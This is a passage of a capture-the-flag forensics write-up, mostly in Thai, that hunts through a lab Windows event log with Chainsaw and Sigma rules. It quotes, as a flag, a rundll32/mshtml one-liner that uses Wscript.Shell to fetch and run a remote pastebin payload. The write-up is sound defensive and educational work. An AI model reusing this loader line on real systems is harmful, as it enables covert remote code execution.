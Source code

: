 ```bash
chainsaw hunt --sigma $CHAINSAW_SIGMA --mapping $CHAINSAW_MAPPING/sigma-event-logs-legacy.yml --rule $CHAINSAW_RULE spg-lab.evtx
```

![Chainsaw | Event log record ID 2578](images/55.png)

`Chainsaw | Event log record ID 2578`

command นี้แปลกๆดีนะ

```bash
forensic{rundll32 vbscript:"\\..\\mshtml\\..\\LoL\\..\\mshtml,RunHTMLApplication "+String(CreateObject("Wscript.Shell").Run("https://pastebin.com/raw/nhWeTtJH"),0)}
```

# Following the Leak Trail #2

_What is the file name?_ \
_Format flag: forensic {filename}_ \
_Eg. forensic{sample.exe}_

ถามอะไรตรงๆแบบนี้ไปต่อไม่เป็นอะ แต่ด้วยความขี้สงสัยว่า link จากข้อ 1 มันคืออะไร เราเลยตามไปดู

![HTTP get with curl](images/56.png)

`HTTP get with curl`
